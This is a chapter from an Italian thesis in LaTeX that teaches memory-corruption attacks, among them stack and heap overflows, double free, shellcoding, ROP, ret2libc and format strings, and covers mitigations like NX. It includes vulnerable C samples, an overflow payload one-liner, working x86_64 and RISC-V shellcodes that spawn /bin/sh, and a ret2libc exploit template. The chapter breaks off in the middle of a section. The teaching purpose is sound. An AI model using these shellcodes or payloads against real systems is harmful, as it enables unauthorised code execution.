

\chapter*{Capitolo 1}
\addcontentsline{toc}{chapter}{Capitolo 1}

\section*{Tipologia di attacchi alla memoria}
\addcontentsline{toc}{section}{Tipologia di attacchi alla memoria}

Nel panorama della sicurezza informatica gli attacchi alla memoria sono i primi tipi di attacchi usati per manomettere sistemi operativi, come è successo per le prime versioni di Unix \cite{Radware}. Al tempo e come oggi vengono utilizzati per riuscire a raggiungere condizioni di maggior privilegio nel sistema (privilege escalation \cite{Cynet}), per leggere aree di memoria non accessibili normalmente e molto altro.
Gli attacchi alla memoria si eseguono a ``runtime", ovvero a tempo di esecuzione, a causa di controlli mancanti lato codice. Il programmatore in questi casi non inserisce dei controlli su elementi che vengono salvati sullo stack, come ad esempio il controllo sulla lunghezza delle stringhe salvate nei buffer. L''attaccante sarà in grado si sovrascrivere interamente il buffer e immettere dati e quindi codice arbitrario nello stack, manipolando il flusso di esecuzione del programma.

\subsection*{Buffer Overflow}
\addcontentsline{toc}{subsection}{Buffer Overflow}
Un attacco Buffer Overflow si verifica nel momento in cui all'interno di un buffer, che è rappresentato in memoria come un blocco contiguo di dati, l'attaccante riesce a inserire più caratteri di quelli previsti dal programmatore.
Durante l'inserimeto di input da parte dell'utente, si può verificare infatti che il programmatore abbia omesso il controllo sulla lunghezza delle stringhe o dei limiti che evitano di registrare i caratteri quando superano un limite numerico prefissato. 
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/buffer-overflow-diagram.png}
    \caption{Stack durante il Buffer Overflow}
\end{figure}
\FloatBarrier
A causa del fatto che i dati vengono salvati in maniera contigua sullo stack, è possibile sovrascrivere il dato fino ad arrivare a sovrascrivere delle istruzioni che partecipano all'esecuzione del programma in quel momento. Proprio grazie al fatto che l'attacco viene eseguito a runtime, è possibile accedere direttamente alle istruzioni che sono in memoria. \\
\newline
Un buffer overflow può dirottare l'esecuzione del programma in vari modi. È possibile ad esempio mandare il programma in crash e quindi interromperne totalmente l'esecuzione. Questo può essere particolarmente grave in caso si utilizzino istanze di webserver single thread che verrebbero terminate dal crash del programma. Gli attacchi Buffer Overflow mirano però di solito a scrivere in memoria per eseguire codice arbitrario e quindi istruzioni macchina per poi arrivare ad eseguire veri e propri comandi di sistema operativo. \\
\newline
Questa tipologia di attacchi sfrutta tipicamente le debolezze di programmi scritti in linguaggi come C che non gestiscono automaticamente i limiti di memoria e lasciano al programmatore il compito di ``scrivere codice sicuro" implementando opportuni controlli e sanificazioni dell' input. \\
\newline
I tipi di Buffer Overflow sono due: Stack Based Buffer Overflow e Heap Based Buffer Overflow

\subsubsection*{Stack Based Buffer Overflow}
\addcontentsline{toc}{subsection}{Stack Based Buffer Overflow}

Questa è la forma più comune di attacco e funziona in maniera analoga a quanto già descritto in precedenza. L'attaccante invia dati contenenti codice dannoso ad un’applicazione che li memorizza in uno stack buffer arrivando a compiere azioni dannose come ad esempio sovrascrivere l'indirizzo di ritorno di una funzione.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/buffer-overflow-example.png}
    \caption{Stack riempito durante il Buffer Overflow} \cite{Medium}
\end{figure}
\FloatBarrier

Senza scendere nello specifico dell'architettura, ora analizziamo un esempio di un programma C vulnerabile ad un attacco stack based buffer overflow \cite{CTF101}. Il seguente codice definisce un valore per la variabile secret, crea un buffer di 64 caratteri e tramite la funzione \textit{read()} legge dal file descriptor numero 0, ovvero standard input, un numero  ``SIZE" di byte immagazzinandoli nel buffer puntato da name.
In questo caso la funzione non controlla la lunghezza del dato inserito dall'utente da input e quindi non definisce la lunghezza che può avere il dato una volta salvato in memoria. \\
È poi presente un check che definisce quale è il valore che deve avere la variabile secret per ``sbloccare" la \textit{puts()} che restituisce la password.  \\
Un attaccante può quindi riempire i primi 64 byte del buffer ``name" e sovrascrivere la variabile secret con dei dati a scelta. In questo caso per passare il controllo sul secret, si dovrà inserire nello stack quello che è richiesto dal check. 

\begin{minted}{c}
#include <stdio.h>

int main() {
    int SIZE = 255;
    int secret = 0xdeadbeef;
    char name[64] = {0};
    read(0, name, SIZE);
    if (secret == 0x1337) {
        puts("Password: P455W0RD");
    } else {
        puts("Next try...");
    }
}

\end{minted}

Come mostrato nello schema sottostante, riempendo i primi \textbf{104 byte} possiamo vedere come la variabile secret salvata nello stack e precedentemente definita assume come valore \textbf{0xdead4141}, ovvero parte del valore precedentemente assegnato e due byte ``A" che in esadecimale vengono rappresentati con \textbf{0x41}. 

\begin{minted}{c}
        0xffff006c: 0xf1f1f1f1  // Saved EIP
        0xffff0068: 0xefef0100  // Saved EBP
        0xffff0064: 0xdead4141  // secret
...
...
...
        0xffff0004: 0x41414141
ESP ->  0xffff0000: 0x41414141  // name
\end{minted}

Un attaccante può quindi inserire nello stack 100 volte la lettera A e aggiungere al vettore in esadecimale la stringa richiesta. Dato che la CPU è little-endian \cite{Geeksforgeeks}, i valori passati sullo stack verranno letti inversamente e quindi l'attaccante dovrà inserire il valore richiesto dal check al contrario. Un payload funzionante per attaccare il programma sarà il seguente.

\begin{minted}{bash}
python -c "print ('A'*100 + '\x31\x13\x00\x00')"
\end{minted}

Grazie a questo exploit, a tempo di esecuzione il programma entrerà nella funzione \textit{puts()} che restituirà la password.  \\
\newline
È stato mostrato un esempio di come sfruttare una Buffer Overflow, ma sono presenti molti altri modi per utilizzare la capacità di uscire da un buffer, come ad esempio sovrascrivere l'indirizzo di ritorno e navigare tra le funzioni caricate nel programma. Questo argomento verrà analizzato più in seguito nella tesi.

\subsubsection*{Heap Based Buffer Overflow}
\addcontentsline{toc}{subsection}{Heap Based Buffer Overflow}

Questo tipo di attacco è un Buffer Overflow basato sulla memoria heap \cite{HeapMemory}.
La memoria heap è gestita in differente rispetto al normale Stack. La prima differenza è che le due memorie ``crescono" in direzioni opposte, ovvero lo stack parte dagli indirizzi alti e cresce verso il basso (in genere e per quanto riguarda architetture CISC) e l'heap inversamente, cresce da indirizzi bassi e va verso l'alto.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.3\linewidth]{images/stack-and-heap.png}
    \caption{Crescita Stack e heap durante l'esecuzione di un programma}
\end{figure}
\FloatBarrier
\vspace{1cm}

In questo tipo di memoria, è possibile allocare lo spazio in maniera autonoma ed esplicita. Si riesce così a bloccare gli spazi di memoria che vengono allocati a delle variabili definite dal programmatore avendo una gestione migliore dei dati. \\
\newline
In C è possibile sfruttare l'heap quando si fanno delle memory allocation o ``\textit{malloc()}" in cui si specifica il tipo di dato e la grandezza in byte della memoria che occuperà. Una volta che il dato è usato il programmatore può decidere di revocarlo e toglierlo dallo stack. In linguaggi più ad alto livello come Java, questo procedimento viene gestito dal garbage collector. \\
\newline
Quando si effettuano attacchi all'heap, è quindi possibile corrompere strutture dati e analogamente agli attacchi sullo stack, eseguire codice arbitrario. \\
Generalmente un attacco basato su heap è più difficile da eseguire rispetto ad un attacco basato su un buffer overflow dello stack. Questo perché è meno probabile trovare istruzioni e pezzi di codice vulnerabilie che usano la heap (come le \textit{malloc()} e le \textit{free()}) rispetto a istruzioni che salvano dati sullo stack.
Di seguito un esempio di codice C vulnerabile ad un attacco di Buffer Overflow sull'heap.

\begin{minted}[escapeinside=||,mathescape=true]{c}
#define BUFSIZE 256
int main(int argc, char **argv) {
char *buf;
buf = (char *)malloc(sizeof(char)*BUFSIZE);
|\highlight{strcpy(buf, argv[1]);}|
}
\end{minted}

La vulnerabilità presente in questo \cite{MitreHeap} caso è la funzione \textit{strcpy()} che copia il contenuto di \textit{argv[1]} nel buffer \textit{buf}, ma non controlla la dimensione della stringa copiata. \\
Questa è una nota vulnerabilità che appare anche a tempo di compilazione, dato che strcpy() è una funzione ormai deprecata. Non essendoci controlli sulla stringa copiata, è possibile come già visto in precedenza sovrascrivere dati dello stack fino ad arrivare a sovrascrivere aree sensibili come l'indirizzo di ritorno delle funzioni. \\
\newline

\subsubsection*{Caso particolare: Double Free}
\addcontentsline{toc}{subsubsection}{Caso particolare: Double Free}

Un attacco particolare che è possibile eseguire solamente nella memoria heap è quello comunemente chiamato ``Double Free". \\
Un attacco del genere può sembrare abbastanza restrittivo dato che a prima vista la superficie di attacco è molto ridotta, anche se in realtà è stato la causa di molti ``Zero Day" in software di uso comune come ad esempio la \textbf{CVE-2019-1193} \cite{TrendMicroWhatsapp} oppure la \textbf{CVE-2024-27099} che portano a Remote Code Execution, ovvero esecuzione di codice arbitrario rispettivamente su Smartphone Android e dispositivi IOT. \\
\newline
Questo sottostante è l'esempio di un codice vulnerabile \cite{HackTricksDoubleFree} a causa di una double \textit{free()}. La vulnerabilità avviene nel momento in cui viene eseguita più volte una \textit{free()} sulla stessa area allocata. Normalmente non si potrebbe utilizzare due volte di seguito questa funzione sulla stessa area perché l'allocatore restituirebbe un errore e manderebbe in crash il programma, ma avendo un' altra variabile posta tra le due \textit{free()}, è possibile fare il bypass di questa situazione.
\begin{minted}[escapeinside=||,mathescape=true]{c}
#include <stdio.h>
#include <stdlib.h>

int main() {
// Allocate memory for three chunks
char *a = (char *)malloc(10);
char *b = (char *)malloc(10);
char *c = (char *)malloc(10);

free(a);
|\highlight{free(b);}|
free(c);
|\highlight{free(b);}|

char *h1 = (char *)malloc(10);
char *i1 = (char *)malloc(10);
char *i2 = (char *)malloc(10);

return 0;
}
\end{minted}
In questo caso il flusso del programma sarà il seguente \\
\begin{minted}{c}
FREE A -> FREE B -> FREE C -> FREE B
\end{minted}

A causa della doppia \textit{free()} sulla variabile B, l'allocatore poi può riallocare la stessa area di memoria in seguito ad una \textit{malloc()} per due puntatori diversi. Questo farà quindi puntare due puntatori distinti alla stessa area di memoria e genererà una grave falla di sicurezza. Se un attaccante è in grado di controllare uno di quei puntatori, può quindi modificare il contenuto di quella memoria in maniera arbitraria. \\
\newline
Stampando gli indirizzi referenziati dal puntatore allocato su C e B avremo infatti lo stesso risultato: è stata allocata la stessa area di memoria.


\begin{minted}{c}
c: 0xaaab0f0c23a0
b: 0xaaab0f0c23a0
\end{minted}

\newpage

Nella figura \ref{fig:heap} si può vedere un esempio di heap overflow. Possiamo evidenziare il payload di dati che ``cresce" nell' heap in maniera opposta ai dati che crescono nello stack.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/heap-buffer-overflow.png}
    \caption{Heap Overflow}
    \label{fig:heap}
\end{figure}
\FloatBarrier
\vspace{1cm}

\subsection*{Shellcoding}
\addcontentsline{toc}{subsection}{Shellcoding}

Una delle tecniche usate dagli attaccanti per eseguire codice arbitrario in seguito ad un buffer overflow del programma, è infatti l'utilizzo di shellcoding. In questo modo è possibile iniettare comandi assembly che verranno inseriti nello stack perché inseriti nel buffer ed eseguiti.\\
Dato che i buffer come abbiamo visto hanno dimensioni limitate, minore è la grandezza dello shellcode, più è probabile che sia efficace per il codice che l'attaccante sta cercando di manomettere. \\
Uno shellcode dipende strettamente dall'architettura che viene attaccata e quindi l'attaccante deve codificarne uno per le sue esigenze e che rispetti il codice assembly dipendente dall'ISA per cui è compilato il programma. Un' altra caratteristica restrittiva nella scrittura degli shellcode è che non devono esserci dei caratteri nulli all'interno del payload perché vengono ignorati durante l'injection.
\newline
Di seguito è presente uno shellcode di 27 bytes per architettura x86\_64 Intel che esegue \textit{/bin/sh} e quindi restituisce una shell interattiva all'attaccante.
\begin{minted}{c}
#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97"
"\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

\end{minted}
Invece ecco un esempio di shellcode per RISC-V64 usato per fare la stessa operazione e ottenere una shell interattiva tramite la stessa funzione \textit{execve(``/bin/sh")} \cite{ShellStormRISCV}

\begin{minted}{c}
#include <stdio.h>
#include <string.h>

char *SC = "\x01\x11\x06\xec"
           "\x22\xe8\x13\x04"
           "\x21\x02\xb7\x67"
           "\x69\x6e\x93\x87"
           "\xf7\x22\x23\x30"
           "\xf4\xfe\xb7\x77"
           "\x68\x10\x33\x48"
           "\x08\x01\x05\x08"
           "\x72\x08\xb3\x87"
           "\x07\x41\x93\x87"
           "\xf7\x32\x23\x32"
           "\xf4\xfe\x93\x07"
           "\x04\xfe\x01\x46"
           "\x81\x45\x3e\x85"
           "\x93\x08\xd0\x0d"
           "\x93\x06\x30\x07"
           "\x23\x0e\xd1\xee"
           "\x93\x06\xe1\xef"
           "\x67\x80\xe6\xff";

int main(void)
{
    char payload[76];

    memcpy(payload, SC, 76);

    fprintf(stdout, "Length: %d\n", strlen(SC));
    (*(void(*)()) payload) ();

return 0;
} 
\end{minted}
Lo shellcode RISC-V posto sopra è quindi utilizzato per chiamare la systemcall \textit{execve()} con l'argomento \textit{/bin/sh} nel registro \textit{a0}.\\
I due shellcode codificano istruzioni diverse in base all'architettura e sono scritti in formato esadecimale little-endian perché devono essere scritti direttamente sullo stack.\\
Usare gli shellcode è possibile però solo in condizioni di stack eseguibile. Una possibile mitigazione a questo exploit è infatti inserire protezioni nello stack a tempo di compilazione.\\
\newline
Una delle prime mitigation per proteggersi dagli shellcode è implementare nel programma compilato uno stack non eseguibile. In questo modo quello che viene messo nello stack a runtime può essere letto, scritto, ma non eseguito. Nella pratica questa mitigazione è attivata di default tramite una flag di compilazione che si chiama \textit{NX bit} \cite{appsec} che sfrutta la tecnica di \textit{Write XOR Execute (W$\oplus$X)} e permette ad un programma di avere ogni pagina dedicata al processo in esecuzione o scrivibile o eseguibile, ma mai entrambe le cose in contemporanea. In questo modo in seguito ad un buffer overflow è possibile scrivere nell'area di memoria interessata, che però non sarà eseguibile, oppure non sarà possibile scrivere mentre è eseguibile.\\
\newline
Per compilare un programma e fare dei test mantenendo lo stack eseguibile, usando GCC, è possibile specificarlo direttamente al compilatore, indipendentemente dall'architettura su cui si sta compilando.
\begin{minted}{bash}
gcc -z execstack programma.c -o programma.o
\end{minted}
Durante normale buffer overflow è quindi impossibile iniettare uno shellcode in caso lo stack abbia la mitigazione . In questo caso è comunque possibile eseguire, come si vedrà, un attacco Return Oriented.\\
Una struttura d'attacco comune è la seguente
\begin{itemize}
    \item Trovare una vulerabilità buffer overflow nel programma stack o heap based.
    \item Usare un attacco ROP per trasformare in eseguibile l'area di memoria del programma 
    \item Utilizzare e iniettare uno shellcode ``egg-hunter based" \cite{coalfire} (ovvero un piccolo pezzo di codice che esegue istruzioni arbitrarie e che è chiamato all'esigenza) o una serie di istruzioni ad un punto prefissato del codice
    \item Eseguire il payload principale
\end{itemize}
Un attaccante che riesce a trovare un buffer overflow e si trova davanti ad un'area di memoria non scrivibile, potrebbe riuscire a chiamare la funzione \textit{mprotect()} \cite{man7} con la quale riesce a manipolare la protezione sull'area di memoria, come può essere lo stack, in quel momento. Le flag da passare a mprotect() sono \textit{PROT\_WRITE} e \textit{PROT\_EXEC} che rendono la memoria rispettivamente scrivibile ed eseguibile.
\subsection*{Return Oriented Programming}
\addcontentsline{toc}{section}{Return Oriented Programming}
Gli attacchi basati su ROP (Return Oriented Programming) sono una categoria di attacchi molto efficaci, che permettono di fare il bypass di alcune mitigazioni introdotte nei sistemi operativi per limitare gli shellcode \cite{TeamFormationShellcoding} e la code injection.\\
\newline
Questo tipo di attacco è una tecnica avanzata che serve per vanificare la protezione alla memoria fornita da meccanismi come NX bit o  Data Execution Prevention \cite{MicrosoftDEP}. L'attaccante in questo scenario deve riuscire a mettere insieme pezzi di codice sparsi per lo stack, che finiscono con un \textit{return} (istruzione ret) e che vengono chiamati ``gadget".\\
Concatenando questo tipo di istruzioni è possibile creare in maniera meno efficiente del codice arbitrario, a patto che sia possibile trovare un numbero abbastanza grande di istruzioni adatte a fare l'operazione che serve all'attaccante. La serie che viene creata è detta ``ropchain". La figura \ref{ref:ropx86} è un esempio di rop chaining su architettura x86\_64.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/rop-stack.png}
    \caption{ROP Attack}
    \label{ref:ropx86}
\end{figure}
\FloatBarrier
\vspace{1cm}
Avendo un programma ``abbastanza grande", ovvero con un alto numero di istruzioni e di conseguenza di dimensioni notevoli (ad esempio maggiori 500MB) è possibile avere un linguaggio di programmazione \textit{Turing Completo} solamente concatenando i gadget tramite Return Oriented Programming \cite{researchgateROP}. \\
Per trovare i gadget contenuti in un programma è possibile fare il dump di codice assembly direttamente dall'artefatto compilato, oppure si possono utilizzare dei tool come \textit{ROPGadget} \cite{GithubROP} o \textit{ropper} \cite{GithubRopper} che estraggono, dati dei filtri, i gadget di interesse. Di particolare interesse è il primo tool, dato che supporta architettura RISC-V e permette di estrarre gadget da compilati di questo formato. \\
I gadget che vengono trovati, indipendentemente dall'architettura, terminano con una istruzione di salto, che sia una \textit{jump and link}, una \textit{jump} o una banale \textit{return}. I gadget di particolare interesse sono quelli in cui vengono manipolati i registri chiave dell'architettura, come possono essere i registri argomento su RISC-V (a0-a7) o i registri che gestiscono i salti, come il registro EIP su x86\_64 che permetterebbe di ``navigare" nel programma in cerca di altri gadget da concatenare. In figura \ref{ref:gadgetx86} è presentato un dump di gadget trovati tramite ROPGadget su architettura x86\_64.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.8\linewidth]{images/x86gadgets.png}
    \caption{Gadgets trovati con ROPGadget}
    \label{ref:gadgetx86}
\end{figure}
\FloatBarrier
\vspace{1cm}
Si può notare come le istruzioni siano sempre terminate da una istruzione \textit{ret}, \textit{jump} o \textit{call} che permettono quindi di saltare al prossimo gadget. In questo caso il filtro è stato posto sui registri \textit{eax}, \textit{ebp}, \textit{ecx} ed \textit{edi}.\\
\newline
Gli attacchi ROP interrompono totalmente il normale flusso del programma, potendo eseguire istruzioni concatenate e chiamare il codice direttamente da località esterne, come ad esempio dalla \textit{libc}. In aggiunta, una volta che l'attaccante ha eseguito le istruzioni di suo interesse, non ha particolare motivazione nel far finire correttamente il programma che terminerà la sua esecuzione con codici di errore. \\
\newline
Nell'ambito difensivo è possibile trovare dei controllori di flusso (Control Flow Integrity) che si occupano di capire se il programma sta eseguendo o meno le istruzioni per il quale è stato codificato. 
\subsection*{Return-to-Libc}
\addcontentsline{toc}{subsection}{Return-to-Libc}

L'attacco \textit{Return-to-Libc} è un exploit basato su buffer overflow e che sfrutta tecniche return oriented programming, molto utilizzato negli scenari in cui è possibile trovare l'overflow del programma, è possibile localizzare la libc in memoria e lo stack del programma è protetto da NX bit. \\
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.4\linewidth]{images/ret2libc.png}
    \caption{Ret2LibC}
\end{figure}
\FloatBarrier
\vspace{1cm}
La logica dell'attacco è trovare un overflow, l'indirizzo della libc in memoria e successivamente l'indirizzo della funzione \textit{system()}. La funzione \textit{system()} può eseguire comandi facendo una \textit{fork()}. Quello che viene passato come argomento nella funzione è ciò che viene eseguito dal sistema. Un attaccante in cerca di una backdoor cercherà di passare come argomento della funzione la stringa \textit{/bin/sh}.\\
L'attack path è quindi la seguente
\begin{itemize}
    \item trovare l'overflow
    \item scoprire l'indirizzo di base della \textit{libc} tramite un debugger o gli \textit{shared object}
    \item inserire come argomento della funzione una stringa utile manipolando stack o registri
    \item chiamare la return
\end{itemize} 
Eventualmente l'attaccante potrebbe anche chiamare la funzione \textit{exit()} sempre contenuta nella libc e fare terminare il programma. L'indirizzo di \textit{/bin/sh} si può trovare nello stack dato che è caricato a runtime come variabile d'ambiente del sistema.\\
Un esempio di exploit usato in seguito ad un buffer overflow sfruttando la \textit{libc} è il seguente
\begin{minted}{bash}
./program `python -c 'print("A"*BUFFER_SIZE + <SYSTEM_ADDR> 
+ "<RETURN_SYSTEM_ADDR>" + "</BIN/SH_ADDR>")'`
\end{minted}
Tra architetture x86\_64 e RISC-V questo attacck ha una differenza sostanziale, ovvero la metodologia con la quale si chiama l'argomento della funzione system. Nei sistemi RISC-V, come si vedrà in seguito, gli argomenti delle funzioni passate nello stack vengono messe in appositi registri argomento, mentre in architetture classiche vengono normalmente messe nello stack tramite istruzioni \textit{push} e tolte tramite istruzioni \textit{pop}.
\subsection*{Altri attacchi}
Verranno di seguito presentati altri attacchi, ma indipendenti dal tipo dell'architettura.
\addcontentsline{toc}{section}{Altri attacchi}
\subsubsection{Format String Attack}
\addcontentsline{toc}{subsection}{Format String Attack}
L'attacco Format String \cite{OwaspFormatString} è una tipologia di exploit che sfrutta l'evaluation delle stringhe come comandi. L'applicazione interpreta quello che è stato immesso nel dato come istruzioni ed esegue flussi di codice che il programmatore non ha previsto. \\
\newline
Questa tipologia di attacco viene sfruttata di solito tramite la  comune funzione \textit{printf()} unita ai formattatori, i comuni  \%x o \%s che definiscono come il tipo di dato nello stack deve essere convertito e interpretato. L'attacco avviene nel momento in cui la funzione che stampa un dato, non sa come formattarlo perché non è definito il tipo nella firma della funzione. Un esempio di codice vulnerabile è il seguente.

\begin{minted}[escapeinside=||,mathescape=true]{c}
#include  <stdio.h> 
void main(int argc, char **argv)
{
    |\highlight{printf(argv[1]);}|
}  
\end{minted}

La funzione \textit{printf()}, infatti, non ha definito il formatter adeguato e manipolando la stringa buffer argv[1] è possibile stampare contenuto dallo stack. Di solito si usano le seguenti combinazioni

